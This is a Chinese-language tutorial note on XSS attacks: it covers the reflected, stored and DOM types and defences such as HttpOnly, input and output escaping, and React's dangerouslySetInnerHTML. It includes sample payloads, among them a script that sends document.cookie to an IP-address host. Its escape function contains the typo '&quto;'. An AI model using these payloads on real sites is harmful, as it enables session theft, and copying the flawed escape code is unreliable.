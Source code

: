 # XSS 攻击
## 什么是 XSS 攻击？
XSS 是 Cross-Site Scripting（跨站脚本攻击）的简称,为了和 CSS 区分，所以把攻击的第一个字母改为 X。
是一种代码注入攻击。攻击者通过在在网站注入恶意脚本，使之在用户的浏览器上运行，从而对用户浏览器进行控制或者盗取用户的信息如 cookie 等

以下情况容易发生 XSS 攻击
1. 从一个不可靠的链接进入到一个 Web 应用程序
2. 没有过滤掉恶意代码的动态内容被发送给 Web 用户

恶意脚本一般包括 JavaScript，有时也会包含 HTML 和 Flash。攻击方式有很多种，但他们的 *共同点为*：**将一些隐私数据像 cookie、session 发送给攻击者，将受害者重定向到一个由攻击者控制的网站，在受害者的机器上进行一些恶意操作**。

跨站体现在哪里？
所获取到的 cookie 发送给 XSS 平台

常见的 XSS 平台
DVWA



## XSS 分类
根据攻击的来源，可以分为存储型、反射型、DOM型。

| 类型      | 存储区                  | 插入点          |
| --------- | ----------------------- | --------------- |
| 反射型 XSS | URL                     | HTML            |
| 存储型 XSS | 后端数据库              | HTML            |
| DOM 型 XSS  | 后端数据库/前端存储/URL | 前端/JavaScript |




### 反射型 XSS
反射型指的是：攻击者构建了特殊的 URL，当服务器接收到请求后，从 URL 中获取数据，拼接到 HTML 后返回，从而导致恶意代码的执行。

场景：
有个搜索接口，后端是搜索内容，如果不对数据做转义等处理，可能会造成这样的 URL
```bash
https: //xxx.com/search?query=<img src="enpty.png" onerror="alert('xss')">
```
反射型是在无害 url 的基础上构造特殊的 url，在 url 上给注入点 get 特殊的字符串，当别人点击构造的链接时触发恶意代码；

具体流程：
当攻击者构建了这个 url 之后，会把这个 url 做成一个链接，用户点击了这个链接之后就会执行恶意代码。
为了隐蔽起见，可能会使用一些技术比如：短网址，把现在 url 压缩。这样用户更容易上当。


常见于 GET 的方式，POST 的内容也可以触发

低危漏洞



### 存储型 XSS
存储型指的是：攻击者将恶意代码提交到了网站的数据库中，当用户请求数据的时候，服务器将其拼接为 HTML 后返回给了用户，从而导致了恶意代码的执行。

比如将 恶意代码提交到后端去，那么所有访问这个网页的用户，都会报错。
场景：
比如一个留言板，攻击者在留言板写入恶意代码，提交的字符串上传到了服务器，当别人访问这个留言板时就会触发代码；
代码执行的过程中，有可能会获取用户的 cookie，然后发送到攻击者所在的机器上，或者指定的服务器上，这样攻击者就可以盗用用户的 cookie 登录到这个网站

具体流程：
有个论坛，大家可以发布留言。然后后面的用户进来可以看到这些留言
* 如果说留言是一个文本输入框，那么攻击者如果输入 `<script>alert('这里我注入一些恶意代码')</script>` 那么浏览器就会执行里面的代码，所有进入这个页面的用户，就都会弹出这些内容。
* 同样是这个输入框，如果用户是写入的如下代码 
  ```js
  <script>document.write('<img src="http://172.22.144.20/?'+document.cookie+'"/>');</script>
  ```
  那么用户浏览到这个页面的时候，就会把自己的 cookie 发送到这台机器上。然后攻击者可以使用拿到的 cookie 信息，登录账号做一些恶意行为


高危漏洞


### DOM 型 XSS
DOM 型指的是：攻击者构建了特殊的 URL，用户打开网站后， js 脚本 从 URL 中获取数据，从而导致了恶意代码的执行。
类似于反射型，区别在于 DOM 型 XSS 并不会和后台进行交互，前端直接将 URL 中的数据不做处理并动态插入到 HTML中，是纯粹的前端安全问题，要做防御也只能在客户端上进行防御。

场景：当你在一个购物网站搜索「上衣」，返回页面中显示「上衣的搜索结果如下：」，这里的上衣可能就是直接由 JS 获取你提交的值插入的，而不是从后端而来。

低低危漏洞


## 防范措施

### HttpOnly
浏览器将禁止页面的 JavaScript 访问带有 HttpOnly 属性的 Cookie
就是服务器在 setCookie 的时候，设置 HttpOnly；
在 cookie 中设置 HttpOnly 属性后，JS 脚本将无法读取到 cookie 信息。

它解决的是 XSS 后 Cookie 劫持问题。就是无法拿到这种类型的 Cookie。




### 输入检查（输入过滤）
原则：**不要相信用户的任何输入**。

措施：对于用户的任何输入要进行检查、过滤、转义。建立可信任的字符和 HTML 标签白名单，对于不在白名单之列的字符或者标签进行过滤或编码。

说明：而在一些前端框架中，都会有一份 decodingMap， 用于对用户输入所包含的特殊字符或标签进行编码或过滤，如 <，>，script，防止 XSS 攻击。

一般是对输入格式的检查，例如：用户名、密码、邮箱、电话号码...等，按照规定的格式输入。

### 输出检查（转义 HTML）
一般说来，所有需要输出到 HTML 页面的变量，全部需要使用编码或者转义来防御。
措施：对内容进行编码或者转义。


比如对于 `"`、`<`、`>`、`/`、`&`、`'` 等进行转义
```js
function escape(str) {
  str = str.replace(/&/g, '&amp;')
  str = str.replace(/</g, '&lt;')
  str = str.replace(/>/g, '&gt;')
  str = str.replace(/"/g, '&quto;')
  str = str.replace(/'/g, '&#39;')
  str = str.replace(/`/g, '&#96;')
  str = str.replace(/\//g, '&#x2F;')
  return str
}

```


### 白名单






## React 如何防范 XSS 攻击
React DOM 在渲染所有输入内容之前，默认会进行转义。
所有的内容在渲染之前都被转换成了字符串，因此恶意代码无法成功注入，从而有效地防止了 XSS 攻击。我们具体看下：

但是有一个需要自己考虑 `dangerouslySetInnerHTML` 
```javascript
 <p
  dangerouslySetInnerHTML={{
    __html: getURL(dialogData.content),
  }}
 />
```


